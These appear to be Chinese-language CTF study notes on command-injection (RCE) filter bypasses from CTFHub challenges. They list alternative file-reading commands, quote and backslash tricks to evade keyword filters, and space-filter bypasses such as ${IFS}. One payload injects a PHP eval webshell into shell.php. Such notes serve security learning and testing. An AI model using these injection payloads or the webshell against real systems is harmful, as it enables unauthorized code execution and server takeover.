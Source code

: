 




### **RCE**

------

> 过滤 cat

**方法一**当cat被过滤后,可以使用一下命令进行读取文件的内容
(1)more:一页一页的显示的显示档案内容
(2)less:与more类似,但是比more更好的是,他可以[pg dn][pg up]翻页
(3)head:查看头几行
(4)tac:从最后一行开始显示,可以看出tac是cat的反向显示
(5)tail:查看尾几行
(6)nl:显示的时候,顺便输出行号
(7)od:以二进制的方式读取档案内容
(8)vi:一种编辑器，这个也可以查看
(9)vim:一种编辑器,这个也可以查看
(10)sort:可以查看
(11)uniq:可以查看



**方法二**
一句话木马
构造payload如下：

CTFHub  RCE –（命令注入，过滤cat）：  `127.0.0.1&echo "<?php @eval(\$_POST['a']);?>" >>shell.php`



**方法三**
反斜杠 ： 例如 ca\t fl\ag.php
连接符： 例如 ca’‘t fla‘’g.txt



> 过滤空格，其实就`;`就行呀

**当空格被过滤后,可以使用一下命令进行读取文件的内容**
`<` `<>` ` >`重定向符
`%09`(需要php环境)(tab)
`%20`(space)
`${IFS}`
`$IFS$9`
{cat,flag.php} //用逗号实现了空格功能
`%20`

PS：为什么我只有`<`可以